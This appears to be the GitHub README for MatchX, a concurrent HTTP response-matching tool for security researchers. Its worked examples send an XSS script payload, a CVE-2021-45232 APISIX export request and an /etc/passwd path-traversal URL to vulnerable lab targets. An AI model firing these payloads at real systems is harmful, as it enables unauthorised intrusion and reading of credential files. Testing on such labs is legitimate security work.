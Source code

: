 <h1 align="center">MatchX</h1>

MatchX is specially designed for matching/finding `Strings` and `Regex patterns` in the HTTP responses with concurrency. This tool can help `Security researchers` to find multiple `CVE's` (that are already found) and `Vulnerabilities` like - Reflected XSS, SQLi, Sensitive data leakage, LFI etc.

## Installation

Run these commands in your terminal:
```
$ git clone https://github.com/Nefcore/MatchX.git
$ cd MatchX
$ sudo python3 setup.py install
$ matchx
```

## Arguments:

* `-u`: For Single URL.
* `-l`: For multiple URLs.
* `-mr`: For regex matching.
* `-mr`: For word/string matching.
* `--cookies`: If you want to use cookies.
* `--verbose`: For verbose output
* `--user-agent`: Specify user agent
* `-m`: Specify request method (GET/POST)
* `--data`: Specify POST data
* `--timeout`: Request timeout
* `--verify`: Verfiy SSL
* `-t`: Number of concurrent threads
* `-o`: For output file

## Finding Reflected XSS with MatchX

Let's find Reflected XSS on http://testphp.vulnweb.com:

Add `<script>alert(1)</script>` in words.txt.

```
$ echo "<script>alert(1)</script>" >> words.txt
```

Now run this command:

```
$ matchx -u "http://testphp.vulnweb.com/search.php?test=query" -mw words.txt --method POST --data "searchFor=<script>alert(1)</script>&goButton=go"
```
Here is the output:

```
 
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 09:10:40] [MATCHED] [<script>alert(1)</script>] http://testphp.vulnweb.com/search.php?test=query
```
output.json:

```
$ cat output.json
```

```json

{
    "URL": "http://testphp.vulnweb.com/search.php?test=query",
    "Status": 200,
    "Matched": true,
    "Word": "<script>alert(1)</script>"
}
```

## Finding CVE-2021-45232 with MatchX

Add `Consumers` in words.txt:

```
$ echo "Consumers" >> words.txt
```
Now run this command:

```
$ matchx -u "http://vuln/apisix/admin/migrate/export.txt" -mw words.txt -v
```

Here is the output:

```
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 09:23:44] [MATCHED] [Consumers] http://vuln/apisix/admin/migrate/export.txt
```

Similarly you can find many CVE's. 

## Finding LFI with MatchX

Let's find LFI on DVWA with MatchX:

Add `root:.*:0:0` regex pattern in regex.txt.

```
$ echo "root:.*:0:0" >> regex.txt
```

Now run this command:

```
$ matchx -u "http://dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd" -mr regex.txt --cookies "PHPSESSID={value}; security=low" -v
```

Here is the output:

```
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 08:42:35] [MATCHED] [root:.*:0:0] http://10.10.46.19/vulnerabilities/fi/?page=../../../../../../etc/passwd [1 time matched]
```
